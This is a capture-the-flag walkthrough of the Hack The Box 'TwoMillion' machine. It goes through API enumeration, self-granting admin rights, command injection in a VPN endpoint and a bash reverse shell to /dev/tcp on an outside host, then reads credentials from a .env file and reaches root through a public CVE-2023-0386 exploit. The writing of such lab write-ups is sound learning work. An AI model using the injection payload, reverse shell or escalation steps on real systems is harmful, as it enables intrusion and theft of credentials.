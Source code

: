 # [TwoMillion](https://app.hackthebox.com/machines/TwoMillion) Writeup [HTB]
## ⏯️ Credits
Thanks to IppSec for the [great walkthrough](https://www.youtube.com/watch?v=Exl4P3fsF7U), as always. Very insightful whenever I get stuck!

## 🧭 Reaching the website
As per usual, we begin by scanning the services that are exposed using `nmap`. The only services are ports 22 (ssh) and 80 (http). We also discover that the host name is `2million.htb`. Interestingly, the browser is having trouble redirecting the page, so we add `2million.htb` to the list of known hosts.
```sh
$ vim /etc/hosts
# add this line
10.10.11.221    2million.htb
```
Now everything works fine: the website appears to be an old version of Hack The Box. We also re-run `nmap`, since some scripts are executed only if the hostname is known. However, we don't find anything interesting.

## 💃 Getting the invite code
First, we want to create an account for the website, so that we can log in. To do so, it looks like we need an invite code (which we don't have). While investigating the content of the page, we find a suspicious file, `inviteapi.min.js`. The content of the file is some obfuscated, hell-sent javascript code, so we copy-paste it into ChatGPT to decrypt it for us:
```js
[...]
function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function(response) {
            console.log(response);
        },
        error: function(response) {
            console.log(response);
        }
    });
}
```
It looks like we can send an HTTP POST request to `/api/v1/invite/how/to/generate` to get a hint on what to do next. We get back some scrambled letters, together with an encryption method: ROT13. 

ROT13 is a special case of Cesar's smash-hit cipher, where the letters are shifted by 13 places. We decrypt the message and obtain the hint: _In order to generate the invite code, make a POST request to `/api/v1/invite/generate`_.

This second POST finally returns an encoded, base64-smelling string. We decode it and get the invite!
```sh
$ echo NjVYNFgtMjkyWjEtS0VGVkYtTkg0SlY= | base64 -d
65X4X-292Z1-KEFVF-NH4JV
```
Now we can create an account and log on the website.

## 🛡️ Becoming an admin
After logging in, the website functionalities become pretty limited and, luckily for us, many pages are not actually there. Since we are aiming for a reverse shell, we start investigating the APIs. An HTTP GET request to `/api/v1` conveniently returns a complete list:
```json
"user": {
	"GET": {
	"/api/v1": "Route List",
	"/api/v1/invite/how/to/generate": "Instructions on invite code generation",
	"/api/v1/invite/generate": "Generate invite code",
	"/api/v1/invite/verify": "Verify invite code",
	"/api/v1/user/auth": "Check if user is authenticated",
	"/api/v1/user/vpn/generate": "Generate a new VPN configuration",
	"/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
	"/api/v1/user/vpn/download": "Download OVPN file"
	},
	"POST": {
	"/api/v1/user/register": "Register a new user",
	"/api/v1/user/login": "Login with existing user"
	}
},
"admin": {
	"GET": {
	"/api/v1/admin/auth": "Check if user is admin"
	},
	"POST": {
	"/api/v1/admin/vpn/generate": "Generate VPN for specific user"
	},
	"PUT": {
	"/api/v1/admin/settings/update": "Update user settings"
	}
}
```
We begin with checking whether we are an admin. Of course, we aren't. Since we want to become one, we kindly ask the server by sending a PUT request to `/api/v1/admin/settings/update`. Our kindness is more that enough, since every user is allowed to send this request! 
We don't really know what are the expected fields, but the server nicely returns explicit error messages, so we are able to provide the correct json with few attempts.
```json
{
	"loggedin":true,
	"username":"real-admin",
	"email":"real.fr@admin.fr",
	"is_admin":1
}
```
`real-admin` is now an actual admin!

## 🐚 Getting the reverse shell
Up to now, there was only one API we weren't allowed to call: `/api/v1/admin/vpn/generate`. Clearly, we use our new admin powers to see what it does.
As before, few attempts are enough to discover the single field, which is `"username"`. 
We try a simple POC command injection to check whether the server is vulnerable:
```json
{
	"username":"real-admin;sleep 2"
}
```
It is!

We open our classic channel:
```sh
$ nc -lvnkp 4815
```
and then get the reverse shell:
```json
{
	"username":"real-admin;bash -c 'bash -i >& /dev/tcp/10.10.14.136/4815 0>&1'"
}
```

## ⚔️ Becoming an admin, again
As soon as obtaining the shell, we check which user we are in control of:
```
$ whoami
www-data
```
Since the first flag is in the `/home/admin/` folder, we need to become an admin. Again.

`www-data` has limited privileges, but can read all the web application files. Therefore, we take a look to `.env`, hoping to find some credentials there:
```
$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```
Bingo! We are ready to escalate our privileges and read the flag:
```
$ su - admin
Password: SuperDuperPass123
$ whoami
admin
$ ls
user.txt
$ cat user.txt
<ADMIN FLAG>
```

## 🫛 Becoming ~~a pea superfan~~ root
To own the last flag, we need to escalate privilege again, and become the root. However, this looks like an impossible task (to me, an HTB noob).

At this moment of desperation, we use `linpeas` to scan for possible privilege escalation paths.

<!-- TODO -->

Results suggest mind admin's business, and looking into their mailbox:
```sh
$ cat /var/spool/mail/admin
[...]
Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```
A simple search on Google reveals the mail is likely referring to CVE-2023-0386. We then find [this POC](https://github.com/sxlmnwb/CVE-2023-0386). Time to become root!

As for `linpeas`, we need to send the POC code to the web server. Therefore, we download it on our machine, compress it and expose it using python3's web server.
```sh
$ git clone https://github.com/sxlmnwb/CVE-2023-0386
$ rm -fr CVE-2023-0386/.git
$ tar -czvf CVE-2023-0386.tar.gz CVE-2023-0386/
$ python3 -m http.server 8000
```
In our admin shell, we download the tar folder, extract it, and follow the README instructions to run the exploit.

<!-- TODO -->
The only thing left to do is reading the flag!
```sh
$ whoami
root
$ cat /root/root.txt
<ROOT FLAG>
```

## EXTRA // TODO

## 🫖 Conclusion and tools recap
What a humbling experience! If this box was easy, I don't want to think about the insane ones...

Anyway, now I'm slightly crazier than before. Also, I hate curl. And I need to sleep.

A great experience! 418/10.  

**__Tools recap__**
<!--TODO-->